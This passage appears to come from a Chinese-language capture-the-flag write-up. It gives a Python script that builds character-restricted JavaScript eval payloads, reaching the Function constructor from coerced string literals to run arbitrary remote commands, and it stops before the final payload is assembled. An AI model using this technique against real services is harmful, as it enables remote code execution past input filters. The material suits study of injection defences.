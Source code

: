 最后贴一下用于生成符合字符要求的、可以任意执行远程命令的eval代码的Python脚本：
```python
chars = {}

def register_string(i, s):
    for j, c in enumerate(s):
        if c in chars:
            continue
        chars[c] = f'${i}[{j}]'

result = ''

register_string(0, 'undefined')
result += '($0=``+[][0])-'

register_string(1, 'true')
result += '($1=``+!0)-'

register_string(2, 'false')
result += '($2=``+!!0)-'

register_string(3, 'Infinity')
result += '($3=``+2**10000)-'

register_string(4, 'function find() { [native code] }')
result += '($4=``+[][$2[0]+$3[3]+$3[4]+$0[8]])-'

register_string(5, 'constructor')
result += '($5=$4[26]+$4[27]+$0[1]+$2[3]+$1[0]+$1[1]+$1[2]+$4[26]+$1[0]+$4[27]+$1[1])-'

register_string(17, 'function Number() { [native code] }')
result += '($17=``+(0)[$5])-'

register_string(6, 'function String() { [native code] }')
result += '($6=``+``[$5])-'

register_string(7, 'String')
result += '($7=$6[9]+$6[10]+$6[11]+$6[12]+$6[13]+$6[14])-'

register_string(8, 'toString')
result += '($8=$1[0]+$4[27]+$7)-'

register_string(9, 'return')
result += '($9=$1[1]+$1[3]+$1[0]+$1[2]+$1[1]+$0[1])-'

register_string(10, 'module')
result += '($10=$17[11]+$8[1]+$0[2]+$0[0]+$2[2]+$0[3])-'

register_string(11, 'for')
result += '($11=$0[4]+$5[1]+$1[1])-'

register_string(12, 'in')
result += '($12=$3[3]+$3[4])-'

register_string(13, 'path')
result += '($13={}[$5][$5](`${$9} ${$5}.${$5}(\\`${$11}($ ${$12} ${$10}){${$3[3]}${$3[2]}($[2]==\\\\\\`${$8[0]}\\\\\\`)${$9} $}\\`)()`)())-'

register_string(14, 'try')
result += '($14=$1[0]+$1[1]+$3[7])-'

register_string(15, 'catch')
result += '($15=$5[0]+$2[1]+$1[0]+$5[0]+$13[3])-'

```
